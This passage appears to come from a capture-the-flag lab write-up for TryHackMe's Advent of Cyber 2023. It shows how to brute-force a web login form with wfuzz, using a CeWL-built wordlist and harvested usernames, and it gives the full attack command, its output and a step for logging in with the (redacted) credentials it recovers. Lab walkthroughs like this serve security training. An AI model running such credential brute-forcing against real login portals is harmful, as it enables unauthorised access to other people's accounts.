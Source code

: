 3. Brute-force the login portal using wfuzz: With your wordlist ready and the list of usernames from the Team Members page, it's time to test the login portal. Use wfuzz to brute-force the ```/login.php```.

What is wfuzz? Wfuzz is a tool designed for brute-forcing web applications. It can be used to find resources not linked directories, servlets, scripts, etc, brute-force GET and POST parameters for checking different kinds of injections (SQL, XSS, LDAP), brute-force forms parameters (user/password) and fuzzing.

```
user@tryhackme$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.164.84/login.php -d "username=FUZZ&password=FUZ2Z"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.164.84/login.php
Total requests: 60372

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000018052:   302        124 L    323 W      5047 Ch     "REDACTED - REDACTED"                                

Total time: 412.9068
Processed Requests: 60372
Filtered Requests: 60371
Requests/sec.: 146.2121
```

In the command above:

- ```-z file,usernames.txt``` loads the usernames list.
- ```-z file,passwords.txt``` uses the password list generated by CeWL.
- ```--hs "Please enter the correct credentials"``` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
- ```-u``` specifies the target URL.
- ```-d "username=FUZZ&password=FUZ2Z"``` provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.
Note: The output above contains the word REDACTED since it contains the correct combination of username and password.

4. The login portal of the application is located at ```http://10.10.164.84/login.php```. Use the credentials you got from the brute-force attack to log in to the application.

![bwebmail](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/37b1ba7e-e9d7-4351-96de-6dc805f403c8)

**Conclusion**

AntarctiCrafts' unexpected breach highlighted the power of specialised brute-force attacks. The swift and successful unauthorised access suggests the attacker likely employed a unique, context-specific wordlist, possibly curated using tools like CeWL. This tool can scan a company's public content to create a wordlist enriched with unique jargon and terminologies.
